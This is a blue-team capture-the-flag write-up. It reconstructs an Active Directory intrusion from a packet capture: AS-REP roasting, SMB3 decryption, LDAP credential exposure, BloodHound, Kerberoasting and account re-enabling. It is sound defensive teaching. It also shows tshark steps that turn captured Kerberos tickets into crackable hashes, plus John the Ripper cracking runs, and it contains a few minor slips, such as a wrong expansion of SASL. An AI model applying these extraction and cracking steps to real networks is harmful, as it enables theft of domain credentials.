


# RoastToRoot Lab

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/roasttoroot/](https://cyberdefenders.org/blueteam-ctf-challenges/roasttoroot/)

Suggested tools: Wireshark, , Notepad++, JohnTheRipper, 7zip

Tactics: Reconnaissance, Initial Access, Execution, Persistence, Privilege Escalation, Defense Evasion, Credential Access, Discovery, Collection, Exfiltration

# Scenario

After compromising a Linux server within the environment, the threat actor was able to pivot deeper into the network and ultimately gain access to the domain controller. From there, they deployed ransomware across the Wowza Enterprise infrastructure, resulting in widespread system outages and the loss of all recoverable backups. Fortunately, network traffic from the first day of the intrusion, specifically communications between the compromised Linux host and the domain controller, was captured and preserved. Your task is to analyze this evidence to determine how the breach occurred, identify the attacker's actions and access path, and provide clear, actionable lessons learned for the organization to strengthen its security posture and prevent similar incidents in the future.

# Questions

**Q1**- To begin the investigation, we need to identify the target Active Directory environment that was compromised during this intrusion. Determining the domain name is essential for scoping the incident and understanding the environment under attack. What is the domain that was attacked by the threat actor?

Answer: `wowza.local`

Reason: The domain targeted by the threat actor was identified as `wowza.local` through analysis of Kerberos traffic in the Packet Capture (PCAP). Filtering for Kerberos version 5 (KRB5) and examining the first Authentication Service Request (AS-REQ) packet reveals the `realm` field within the request body explicitly naming the target domain, making this the most authoritative source for domain identification, as opposed to incidental appearances in New Technology LAN Manager (NTLM) flows seen in earlier Server Message Block version 2 (SMB2) traffic. `192.168.189.172` is the compromised Linux host (the pivot point), not the attacker's original external IP. The actual attacker is operating through it.

The AS-REQ is the initial message a client sends to the Key Distribution Center (KDC) when requesting a Ticket Granting Ticket (TGT). Its `realm` field is a mandatory, protocol-enforced value identifying the Active Directory (AD) domain, giving it higher evidentiary weight than NTLM exchanges, which often carry NetBIOS names rather than the full Domain Name System (DNS) realm. Activity targeting Kerberos infrastructure aligns with MITRE ATT&CK technique `T1558` (Steal or Forge Kerberos Tickets).

Packet `329` | `192.168.189.172` -> `192.168.189.191` | KRB5 AS-REQ `req-body` -> `realm`: `WOWZA.LOCAL`



**Q2**- Before launching credential-based attacks, threat actors often probe the target environment using anonymous and guest authentication to test connectivity and identify accessible resources. Determining when this reconnaissance began is essential for establishing the attack timeline. When did the threat actor begin interacting with the domain using anonymous and guest authentication over SMB?

Answer: `2025-11-25 10:53`

Reason: The threat actor began interacting with the domain using anonymous null session Server Message Block (SMB) authentication at `2025-11-25 10:53:27`, as evidenced by packet `102` in the capture. A null session is an unauthenticated SMB connection where the username and domain fields are intentionally left blank, commonly used by attackers to probe a target for accessible shares and resources without providing credentials. Filtering the capture for SMB version 2 (SMB2) traffic where the session account field is empty (`smb2.acct == ""`) isolates these null session attempts, with packet `102` representing the earliest occurrence, originating from the compromised Linux host (`192.168.189.172`) toward the Domain Controller (DC) at `192.168.189.191` on port `445`. Null session enumeration aligns with MITRE ATT&CK technique `T1087.002` (Account Discovery: Domain Account) and `T1135` (Network Share Discovery), as the activity typically precedes share and user enumeration against the DC.

```
smb2.acct == ""
```


**Q3**- The threat actor used employee data stolen from the compromised Linux machine to perform an AS-REP Roast attack. According to the packet capture, how many usernames were targeted in total, and what are the targeted sAMAccountNames in order?

Answer: 3, `hthomas`, `owright`, `cgarcia`

Reason: The threat actor performed an Authentication Service Response (AS-REP) Roasting attack targeting three user accounts within the `wowza.local` domain. AS-REP Roasting exploits accounts configured with "Do not require Kerberos pre-authentication," allowing an attacker to request an AS-REP ticket from the Domain Controller (DC) without first proving their identity. The encrypted portion of that response can then be cracked offline to recover the account password. Filtering the capture for Kerberos AS-REP packets (message type `11`) originating from the DC at `192.168.189.191`, which represent successful ticket issuances, identifies three unique targeted Security Account Manager Account Names (`sAMAccountName`): `cgarcia`, `hthomas`, and `owright`.

In Wireshark, applying the display filter `kerberos.msg_type == 11` and inspecting the `CNameString` field within each AS-REP packet body reveals the targeted accounts. This activity maps to MITRE ATT&CK technique `T1558.004` (Steal or Forge Kerberos Tickets: AS-REP Roasting).

Wireshark filter: `kerberos.msg_type == 11`
Targeted accounts: `cgarcia`, `hthomas`, `owright`
Total targeted: `3`

```powershell
PS C:\> tshark -r .\domainmess_evidence.pcapng -Y "kerberos.msg_type == 11" -T fields -e kerberos.CNameString | Sort-Object -Unique

eString | Sort-Object -Unique
cgarcia
hthomas
owright
```

**Q4**- After capturing the AS-REP hashes, the threat actor attempted to crack them offline to obtain valid domain credentials. Successfully cracking one of these hashes would provide the attacker with initial authenticated access to the Windows domain. What was the password for the user whose hash was successfully cracked? (Hint: use `rockyou.txt`)

Answer: `whatisit`

Reason: To recover the cracked password, the three Authentication Service Response (AS-REP) hashes for `cgarcia`, `hthomas`, and `owright` were extracted from the Packet Capture (PCAP) using NetworkMiner (after converting the `.pcapng` to `.pcap` format via `editcap`) and formatted into the standard `$krb5asrep$23$username@REALM:checksum$ciphertext` structure required by John the Ripper. Running John against the formatted hashes using the `rockyou.txt` wordlist with `--format=krb5asrep` successfully cracked only one hash, belonging to `cgarcia`, revealing the password `whatisit`. This indicates the account had both Kerberos pre-authentication disabled and a weak password present in a common wordlist.

The `23` in the hash prefix denotes encryption type `etype 23`, which corresponds to Rivest Cipher 4 with Hash-based Message Authentication Code and Message Digest 5 (RC4-HMAC-MD5), a legacy cipher that is significantly faster to crack offline than Advanced Encryption Standard (AES) variants. This activity maps to MITRE ATT&CK technique `T1110.002` (Brute Force: Password Cracking) following the prior `T1558.004` (AS-REP Roasting) collection step.

Cracked credential: `$krb5asrep$23$cgarcia@WOWZA.LOCAL` -> `whatisit`

```bash
$ editcap -F pcap domainmess_evidence.pcapng domainmess_evidence.pcap

# Use Network Miner to extract username:password

$ john .\hashes.txt --wordlist="...\rockyou.txt" --format=krb5asrep
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x]
)
Remaining 2 password hashes with 2 different salts
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:14 5.17% (ETA: 19:16:32) 0g/s 59467p/s 118970c/s 118970C/s msslides..mrbean95
0g 0:00:00:20 7.21% (ETA: 19:16:39) 0g/s 58540p/s 117106c/s 117106C/s wakesa..waenWAEN1234
0g 0:00:00:22 7.80% (ETA: 19:16:44) 0g/s 57280p/s 114561c/s 114561C/s spijkenisse1969..speks11
...
PS C:\Users\Administrator\Desktop\Start Here\Tools\Crypto and Password Recovery\john> john --show .\hashes.txt
$krb5asrep$23$cgarcia@WOWZA.LOCAL:whatisit
```


**Q5**- Using the credentials obtained from the AS-REP Roasting attack, the threat actor enumerated file shares on the domain controller and tested write access by creating file and folder with the random name to those shares. What was the name of the text file that was used in this process?

Answer: `AyUXwZSYKV.txt`

Reason: The threat actor used the cracked credentials for `cgarcia` (password: `whatisit`) to enumerate file shares on the Domain Controller (DC) and test write access. The write-access test was performed within an encrypted Server Message Block version 3 (SMB3) session, which concealed all file operations from standard SMB version 2 (SMB2) analysis. To uncover the activity, Wireshark's New Technology LAN Manager Security Support Provider (NTLMSSP) decryption capability was leveraged by navigating to `Edit > Preferences > Protocols > NTLMSSP` and supplying the plaintext password `whatisit`. This allowed Wireshark to derive the SMB3 session encryption key from the NTLM authentication exchange and decrypt the previously opaque traffic. Once decrypted, a `Create Request` with `Overwrite If` disposition became visible within the formerly encrypted session, revealing the randomly named text file `AyUXwZSYKV.txt` (a 10-character random alphanumeric string with a `.txt` extension) used to test write access to the DC's shares.

SMB3 negotiates per-session encryption keys derived from the NTLM authentication exchange, so supplying the plaintext password lets Wireshark reconstruct those keys and decrypt traffic that would otherwise appear as opaque `Encrypted SMB3` blobs. The `Overwrite If` disposition instructs the server to overwrite the target file if it exists or create it if it does not, a behavior typical of automated write-access probes. This activity aligns with MITRE ATT&CK techniques `T1078` (Valid Accounts) and `T1135` (Network Share Discovery).

Wireshark path: `Edit > Preferences > Protocols > NTLMSSP > NT Password: whatisit`
Packet `2316` | `2025-11-25 10:55:49` | Decrypted SMB3
`192.168.189.172` -> `192.168.189.191`
SMB2 Create Request | Disposition: `Overwrite If`
Filename: `AyUXwZSYKV.txt`


## Encrypted SMB3 and NTLM Credentials

When a threat actor authenticates to a Server Message Block version 3 (SMB3) share using valid Windows credentials, the resulting session is encrypted end-to-end, rendering all subsequent file operations opaque to passive packet analysis. Standard Server Message Block version 2 (SMB2) display filters return only `Encrypted SMB3` blobs with no visibility into `Create`, `Read`, `Write`, or `Tree Connect` operations.

**How SMB3 encryption works on the wire:**

SMB3 encrypts each message using Advanced Encryption Standard (AES) in either Counter with Cipher Block Chaining Message Authentication Code (AES-CCM) or Galois/Counter Mode (AES-GCM), negotiated during the `Negotiate Protocol` exchange. Every encrypted SMB3 message is wrapped in a `SMB2 TRANSFORM_HEADER` (signature `0xFD 'S' 'M' 'B'`) which carries the nonce, the original message size, the session identifier, and an authentication signature. The header is transmitted in cleartext, but the SMB2 payload following it is fully encrypted.

The key material is derived in stages. First, the New Technology LAN Manager (NTLM) authentication exchange produces a Session Base Key from the NT hash of the user's password combined with the server's challenge. From this, the client and server derive a Session Key, then run it through the Key Derivation Function in Counter Mode defined by Special Publication 800-108 (SP800-108 KDF-CTR) with the label `SMB2AESCCM` or `SMB2AESGCM` to produce the final `ServerIn` and `ServerOut` encryption keys. These keys are never transmitted, only the inputs needed to recompute them.

Because SMB3 is not a separate protocol, it's actually version 3 of the SMB2 protocol family. Microsoft never released a separate "SMB3" wire format; instead, SMB version 3.x is negotiated within the same SMB2 protocol framing using the
Negotiate Protocol dialect field. Wireshark dissects all of it under the SMB2 protocol label regardless of whether the negotiated dialect is 2.0, 2.1, 3.0, 3.1.1, etc. The "Encrypted SMB3" label is just Wireshark's way of saying
"this is an SMB2 packet where the dialect negotiated was 3.x and encryption is active."

Wireshark exploits this by accepting the plaintext password, internally computing the NT hash, replaying the NTLMSSP exchange, and re-deriving the same session keys the endpoints use, which lets it decrypt the `TRANSFORM_HEADER` payloads in place.

Prerequisites for successful decryption:

- The full NTLMSSP authentication exchange (`Negotiate`, `Challenge`, `Authenticate`) must be present in the capture. If the session resumes from a prior capture, this method will not work.
- The password must correspond to the account performing the SMB3 session.
- Only NTLM-authenticated sessions are recoverable this way. Kerberos-authenticated SMB3 sessions require the Ticket Granting Service (TGS) session key, which Wireshark cannot derive from a password alone.

Configuration steps in Wireshark Graphical User Interface (GUI):

1. Navigate to `Edit > Preferences > Protocols > NTLMSSP`.
2. Enter the plaintext password into the `NT Password` field.
3. Click `OK` and reload the capture via `Ctrl + R` or `View > Reload`.
4. Apply the filter `smb2` to confirm previously opaque packets now display decrypted operations.

This technique supports defensive analysis of MITRE ATT&CK technique `T1078` (Valid Accounts), where recovering visibility into authenticated session activity is essential for scoping post-compromise actions.

```
Edit > Preferences > Protocols > NTLMSSP > NT Password: <plaintext_password>
```

**Q6**- After enumerating all file shares, what is the name of the share that the threat actor manually accessed?

Answer: `Finance`

Reason: The share manually accessed by the threat actor was `Finance`, identified through the Server Message Block version 2 (SMB2) Tree Connect Request at packet `2800` targeting `\\192.168.189.191\Finance`. The distinction between manual and automated access is significant here. The encrypted Server Message Block version 3 (SMB3) sessions in frames `1907` to `2586` represent automated write-access testing performed by the attacker's tooling across all shares, while the `Finance` share Tree Connect at `10:56:17` marks a deliberate, separate authenticated session where the attacker specifically chose to enumerate the share's contents, browsing its full directory structure including subfolders such as `Audit Documents`, `Budgets`, `Contracts`, `Payroll`, and `Tax Documents`.

The Tree Connect Request is the SMB2 operation that establishes a logical connection to a specific share on a server, identified by its Universal Naming Convention (UNC) path. Each Tree Connect produces a unique Tree Identifier (`TreeID`) used in all subsequent operations against that share, which makes it the most reliable artifact for distinguishing which shares an attacker intentionally interacted with versus those merely probed during automated enumeration. This activity maps to MITRE ATT&CK technique `T1039` (Data from Network Shared Drive) and `T1083` (File and Directory Discovery).

Packet `2800` | `2025-11-25 10:56:17.881394192.168.189.172` -> `192.168.189.191`
SMB2 Tree Connect Request | Tree: `\\192.168.189.191\Finance`

```
smb2.cmd == 3 && smb2.tree contains "Finance"
```

The encrypted `SMB3` session (frames `2358` to `2378`) connected to `Finance` three times in rapid succession as part of the automated write-access testing tool, using the same session with requests separated by milliseconds and no directory traversal. Then at frame `2800`, `27` seconds later, a completely new unencrypted `SMB2` session connected to `Finance` again and enumerated every subfolder. The automated tool already tested `Finance` and moved on, and the second connection is the deliberate follow-up that the question describes as "manually accessed."

```powershell
No.	  Time	                      Source	        Destination	    Protocol	  Length	Info	
2358	2025-11-25 10:55:49.608345	192.168.189.172	192.168.189.191	SMB2	      244	    Decrypted SMB3;Tree Connect Request Tree: \\192.168.189.191\Finance		
2359	2025-11-25 10:55:49.608671	192.168.189.191	192.168.189.172	SMB2	      202	    Decrypted SMB3;Tree Connect Response		
2370	2025-11-25 10:55:49.646096	192.168.189.172	192.168.189.191	SMB2	      244	    Decrypted SMB3;Tree Connect Request Tree: \\192.168.189.191\Finance		
2371	2025-11-25 10:55:49.646466	192.168.189.191	192.168.189.172	SMB2	      202	    Decrypted SMB3;Tree Connect Response		
2377	2025-11-25 10:55:49.660738	192.168.189.172	192.168.189.191	SMB2	      244	    Decrypted SMB3;Tree Connect Request Tree: \\192.168.189.191\Finance		
2378	2025-11-25 10:55:49.661000	192.168.189.191	192.168.189.172	SMB2	      202	    Decrypted SMB3;Tree Connect Response		
2800	2025-11-25 10:56:17.881394	192.168.189.172	192.168.189.191	SMB2	      192	    Tree Connect Request Tree: \\192.168.189.191\Finance		
2801	2025-11-25 10:56:17.881596	192.168.189.191	192.168.189.172	SMB2	      150	    Tree Connect Response
```

**Q7**- LDAP is commonly abused by attackers to collect domain information, including user objects and their attributes. Organizations sometimes make the critical mistake of storing credentials in user description fields, which are readable by any authenticated domain user. During the LDAP enumeration phase, the threat actor discovered a temporary administrator account with credentials exposed in a user attribute. What were the username and password of this account that were leaked to the threat actor?

Answer: `tempadmin`:`Admin@9999999!`

Reason: During the Lightweight Directory Access Protocol (LDAP) enumeration phase captured in the packet capture (PCAP), the threat actor issued LDAP search queries against the domain controller (`192.168.189.191`) using the compromised credentials of `cgarcia`. Filtering for `ldap.AttributeValue` containing `"temp"` surfaces a `searchResEntry` response at frame `3725`, returning the object `CN=temp,OU=Admins,DC=wowza,DC=local`.

Inspecting the attributes section of that response reveals 35 attributes for the account, including a `description` field whose value is `pw: Admin@9999999!`, a plaintext password stored directly in an Active Directory (AD) attribute readable by any authenticated domain user. This is a critical misconfiguration consistent with MITRE ATT&CK technique T1552.001 (Unsecured Credentials: Credentials in Files), as AD object attributes are functionally accessible to all authenticated users by default and are not treated as protected storage. The account's `displayName` attribute confirms the identity as `TempAdmin`, and the `distinguishedName` places it in the `Admins` organizational unit (OU), making it a high-value target. The `whenChanged` timestamp of `20251125105221.0Z` indicates the account was modified on the same day as the attack, consistent with a hastily provisioned temporary admin account, a pattern that aligns with T1136.002 (Create Account: Domain Account).

The exposed credentials `tempadmin:Admin@9999999!` gave the threat actor privileged access to the domain without needing to crack any additional hashes, effectively bypassing credential-based defenses entirely.

Wireshark filter: `ldap.AttributeValue contains "temp"`
Frame: `3725`
Object: `CN=temp,OU=Admins,DC=wowza,DC=local`
Attribute `description`: `pw: Admin@9999999!`
Attribute `displayName`: `TempAdmin`
Attribute `distinguishedName`: `CN=temp,OU=Admins,DC=wowza,DC=local`
Credentials leaked: `tempadmin:Admin@9999999!`

```
ldap.AttributeValue contains "temp"
```


## LDAP Operations Reference

Lightweight Directory Access Protocol (LDAP) uses numbered `protocolOp` values to identify the type of operation carried in each packet. The following table covers the operation types most commonly encountered during packet capture (PCAP) analysis of Active Directory (AD) environments.

| Op# | Name | What it is |
| --- | --- | --- |
| `0` | `bindRequest` | Login attempt, contains the distinguished name (DN) and credentials |
| `1` | `bindResponse` | Server reply to bind, result code `0` indicates success |
| `2` | `unbindRequest` | Client disconnecting from the LDAP session |
| `3` | `searchRequest` | Query for directory objects, contains base DN, scope, and filter |
| `4` | `searchResEntry` | One result object returned per matching object found |
| `5` | `searchResDone` | End of search results, result code `0` indicates success |
| `6` | `modifyRequest` | Attacker or client modifying an existing attribute value |
| `8` | `addRequest` | Creating a new directory object, such as a new user account |
| `10` | `delRequest` | Deleting a directory object |
| `12` | `compareRequest` | Testing whether an attribute holds a specific value |

For blue team triage, three operation types carry the highest investigative priority:

- `bindRequest` (`0`) reveals who authenticated and with what credentials. This is the entry point for identifying compromised accounts performing enumeration, as seen with `cgarcia` in this investigation.
- `searchResEntry` (`4`) reveals what data the server returned to the client. This is where sensitive data exfiltration surfaces in a PCAP, including the `tempadmin` credential discovery at frame `3725` in this case, consistent with MITRE ATT&CK technique T1087.002 (Account Discovery: Domain Account).
- `modifyRequest` (`6`) reveals attacker-driven changes to AD objects, such as adding a compromised account to a privileged group or altering account properties, consistent with T1098 (Account Manipulation).

Q8- The threat actor attempted to use this credential to authenticate to the domain controller over SMB. What NTSTATUS response did the domain controller return?

Answer: `STATUS_ACCOUNT_DISABLED`

Reason: During the Lightweight Directory Access Protocol (LDAP) enumeration phase, the threat actor discovered the `tempadmin` account with its password stored in plaintext within the Active Directory (AD) description attribute. Armed with these credentials (`tempadmin:Admin@9999999!`), the attacker pivoted to Server Message Block (SMB) and attempted to authenticate to the domain controller at `192.168.189[.]191`.

The full NT LAN Manager Security Support Provider (NTLMSSP) handshake is captured at frames `4776` through `4778`. The Linux host at `192.168.189[.]172` transmitted an `NTLMSSP_NEGOTIATE`, received an `NTLMSSP_CHALLENGE`, then submitted a Session Setup Request containing `NTLMSSP_AUTH` for `wowza[.]local\tempadmin` at frame `4777`. The domain controller response at frame `4778` returned `STATUS_ACCOUNT_DISABLED`, confirming the account existed in Active Directory but had been administratively disabled. This outcome indicates a decommissioned temporary account whose credentials were never rotated out of the description field, making it a dead end for the attacker despite the credential exposure.

This technique aligns with MITRE ATT&CK T1087.002 (Account Discovery: Domain Account) for the LDAP enumeration phase, and T1078.002 (Valid Accounts: Domain Accounts) for the attempted SMB authentication using harvested credentials.

```
Filter: smb2.cmd == 1 && ntlmssp.auth.username == "tempadmin"

Frame 4777: Session Setup Request, NTLMSSP_AUTH, User: wowza.local\tempadmin
Frame 4778: Session Setup Response, Error: STATUS_ACCOUNT_DISABLED
NTSTATUS: STATUS_ACCOUNT_DISABLED (0xC0000072)
```

Q9- BloodHound is a powerful Active Directory reconnaissance tool that uses LDAP queries to map trust relationships, permissions, and attack paths within a domain. The collection phase begins with an LDAP Bind Request and concludes with an LDAP Unbind Request, signaling the end of data gathering. Identifying this boundary packet helps determine when the threat actor completed their domain enumeration. At which packet number does the LDAP Unbind Request occur, indicating the completion of the BloodHound collection?

Answer: `5175`

Reason: BloodHound's Active Directory (AD) collection phase operates entirely over Lightweight Directory Access Protocol (LDAP), issuing a high volume of search queries to map users, groups, Group Policy Objects (GPOs), Access Control Lists (ACLs), and trust relationships across the domain. The collection session is bookended by an LDAP Bind Request at the start and an LDAP Unbind Request at the end, with the unbind serving as the clean termination signal that BloodHound transmits when data gathering is complete.

Filtering the packet capture (PCAP) for `ldap.protocolOp == 2`, the protocol operation code for `unbindRequest`, returns a single result: frame `5175` at timestamp `394.624320` seconds. This frame contains an `unbindRequest(10)` sent from the compromised Linux host at `192.168.189[.]172` to the domain controller at `192.168.189[.]191`. The presence of only one unbind across the entire capture confirms frame `5175` as the definitive boundary packet marking the conclusion of the BloodHound collection phase. The absence of additional unbind frames eliminates ambiguity and ties the entire LDAP session to a single coordinated reconnaissance run.

This activity maps to MITRE ATT&CK T1069.002 (Permission Groups Discovery: Domain Groups) and T1087.002 (Account Discovery: Domain Account), reflecting BloodHound's systematic enumeration of domain objects and relationships to support later lateral movement or privilege escalation planning.

```
Filter: ldap.protocolOp == 2

Frame 5175: 394.624320 | 192.168.189.172 -> 192.168.189.191 | LDAP | unbindRequest(10)

LDAP protocolOp values:
  0 = bindRequest
  2 = unbindRequest
  3 = searchRequest
  4 = searchResEntry
  5 = searchResDone
```

Q10- Kerberoasting is a post-exploitation technique where an attacker requests Kerberos service tickets (TGS) for accounts with Service Principal Names (SPNs). The encrypted portion of these tickets can be extracted and cracked offline to recover service account passwords, which often have elevated privileges. After completing their initial reconnaissance, the threat actor performed a Kerberoasting attack to escalate their privileges. How many service account hashes were the threat actor able to retrieve?

Answer: 5

Reason: After completing BloodHound enumeration, the threat actor pivoted to Kerberoasting, a technique that abuses the Kerberos ticket-granting service to request encrypted Ticket Granting Service (TGS) tickets for accounts that have Service Principal Names (SPNs) registered, essentially any account configured to run a network service. Because these tickets are encrypted with the service account's password hash, an attacker can capture them and crack them offline without any further interaction with the domain controller.

Filtering the packet capture (PCAP) for Kerberos message type `13` (TGS-REP, the domain controller response delivering the requested service ticket) and restricting to traffic from the domain controller at `192.168.189[.]191` to the attacker at `192.168.189[.]172` reveals five discrete `TGS-REP` frames: `5313`, `5331`, `5349`, `5367`, and `5385`. All five arrive within a 90-millisecond window at approximately timestamp `443s`, a timing pattern consistent with an automated tool such as Rubeus or Impacket's `GetUserSPNs.py` rapidly enumerating and requesting tickets for every SPN-bearing account in the domain. Each `TGS-REP` contains one RC4 or AES-encrypted service ticket body, meaning the attacker collected five crackable hashes representing five service accounts, each carrying potential for privilege escalation if the underlying passwords are weak or reused.

This activity maps to MITRE ATT&CK T1558.003 (Steal or Forge Kerberos Tickets: Kerberoasting), reflecting targeted offline credential access through abuse of legitimate Kerberos service ticket mechanics.

```bash
# Filter in Wireshark
kerberos.msg_type == 13 && ip.src == 192.168.189.191 && ip.dst == 192.168.189.172

# Frames returned
5313  443.368804  TGS-REP  (1513 bytes)
5331  443.392263  TGS-REP  (1508 bytes)
5349  443.412336  TGS-REP  (1518 bytes)
5367  443.430747  TGS-REP  (1522 bytes)
5385  443.449738  TGS-REP  (1506 bytes)

# Extract the 5 SPNs using tshark
tshark -r domainmess_evidence.pcapng -Y "kerberos.msg_type == 12 && ip.src == 192.168.189.172" -T fields -e kerberos.SNameString | sort -u

krbtgt,WOWZA.LOCAL,wowza.local\svc_backup
krbtgt,WOWZA.LOCAL,wowza.local\svc_defender
krbtgt,WOWZA.LOCAL,wowza.local\svc_dhcp
krbtgt,WOWZA.LOCAL,wowza.local\svc_dpm
krbtgt,WOWZA.LOCAL,wowza.local\svc_sharepoint
```

Q11- Following the Kerberoasting attack, the threat actor attempted to crack the captured service ticket hashes offline. Service accounts often have weaker passwords than expected, making them vulnerable to dictionary attacks. Successfully cracking one of these hashes would provide the attacker with elevated privileges within the domain. What was the username of the service account whose hash was successfully cracked, and what password was recovered?

Answer: `svc_backup`:`1180200022358`

Reason: Following the Kerberoasting attack that retrieved five TGS-REP tickets, the threat actor attempted offline dictionary cracking against each service account hash. Kerberoasting is effective precisely because service accounts frequently carry static, manually-set passwords that never rotate and are often chosen for memorability rather than strength, making them vulnerable to wordlist attacks.

Analysis of the PCAP identified `svc_backup` as the successfully cracked account by observing its credentials being put to active use. An LDAP `bindRequest` at frame `6765` (timestamp `~11:03:07`) shows the attacker authenticating as `wowza[.]local\svc_backup` against the domain controller at `192.168.189[.]191`, an action that would only be possible after recovering the plaintext password through offline cracking. Extracting the ticket cipher from the first `kerberos.cipher` field of the corresponding TGS-REP, specifically the ticket's `enc-part` encrypted with the service account's NT hash rather than the TGS-REP `enc-part` encrypted with the client session key, and formatting it as a `$krb5tgs$23$` RC4-HMAC hash, then running it against `rockyou.txt` with John the Ripper confirmed the password as `1180200022358`. This numeric string is consistent with a date or identifier value and is trivially crackable with a standard wordlist, illustrating the real-world risk of non-expiring service account passwords with low entropy.

This activity maps to MITRE ATT&CK T1558.003 (Steal or Forge Kerberos Tickets: Kerberoasting) for the ticket extraction phase, and T1110.002 (Brute Force: Password Cracking) for the subsequent offline dictionary attack against the recovered hash.

```bash
# tshark extraction -- first cipher field is the ticket body (crackable), second is TGS-REP enc-part (discard)
tshark -r domainmess_evidence.pcapng \
  -Y "kerberos.msg_type == 13 && ip.src == 192.168.189.191" \
  -T fields -e kerberos.SNameString -e kerberos.cipher \
  2>/dev/null | grep svc_backup

# Hash format (split first 32 hex chars as checksum)
$krb5tgs$23$*svc_backup$WOWZA.LOCAL$wowza.local/svc_backup*$e18951ee90e5570b6272e00a637941b9$<ciphertext>

# Crack command (Windows)
john.exe svc_backup.hash --wordlist=C:\path\to\rockyou.txt --format=krb5tgs

# Result
svc_backup:1180200022358

# Confirmation of use -- LDAP auth at frame 6765
# Filter: ldap && ip.src == 192.168.189.172 && frame.number == 6765
# Frame 6765: bindRequest(1) "<ROOT>", NTLMSSP_AUTH, User: wowza.local\svc_backup
```

Q12- With elevated privileges obtained from the cracked service account, the threat actor now possessed the ability to modify Active Directory objects. The attacker leveraged these privileges to re-enable temporary administrator account found earlier. When did this account modification take place?

Answer: `2025-11-25 11:03`

Reason: With `svc_backup` credentials in hand, the threat actor leveraged that account's elevated Active Directory privileges to re-enable the previously discovered `tempadmin` account, which had returned `STATUS_ACCOUNT_DISABLED` during the earlier SMB authentication attempt at frame `4778`. The modification is visible in the PCAP as an encrypted LDAP session on port `389` beginning at frame `6765`, where the attacker authenticates as `wowza[.]local\svc_backup` via a standard LDAP `bindRequest`.

Following the `bindResponse` success at frame `6766` (timestamp `2025-11-25 11:03:07`), all subsequent LDAP operations in this session appear as Security Association Layer (SASL) Generic Security Services Application Program Interface (GSS-API) Privacy payloads, meaning LDAP traffic encrypted at the message level using Kerberos GSSAPI rather than Transport Layer Security (TLS). This is distinct from LDAPS on port `636`: the connection uses plain port `389`, but Kerberos negotiates an ephemeral session key during the authentication exchange and uses it to wrap each LDAP message. Because this session authenticates with Kerberos rather than NT LAN Manager (NTLM), the NT password approach used to decrypt the SMB3 sessions does not apply. Wireshark would require a keytab file containing `svc_backup`'s long-term key material to unwrap these payloads.

The modify operation targeting `tempadmin`'s `userAccountControl` attribute is buried within the encrypted exchanges at frames `6768` through `6785`, with the actual account modification most consistent with the small request/response pair at frames `6781` and `6782`. The session tears down cleanly at frame `6786`, and the re-enable is confirmed by the `tempadmin` SMB Session Setup returning `STATUS_SUCCESS` at frame `6859`, a direct contrast to the disabled status observed at frame `4778`.

This activity maps to MITRE ATT&CK T1098 (Account Manipulation), reflecting the attacker modifying an existing domain account's state to restore access, building on previously compromised credentials to expand their foothold.

```bash
# LDAP session containing the modification
# Frame 6765: bindRequest, User: wowza.local\svc_backup
# Frame 6766: bindResponse success -- timestamp 2025-11-25 11:03:07.235401
# Frames 6768-6785: SASL GSS-API Privacy payloads (encrypted LDAP ops, Kerberos GSSAPI)
# Frame 6786: FIN -- session teardown

# Confirmation of re-enable
# Frame 6859: SMB2 Session Setup Request, User: wowza.local\tempadmin
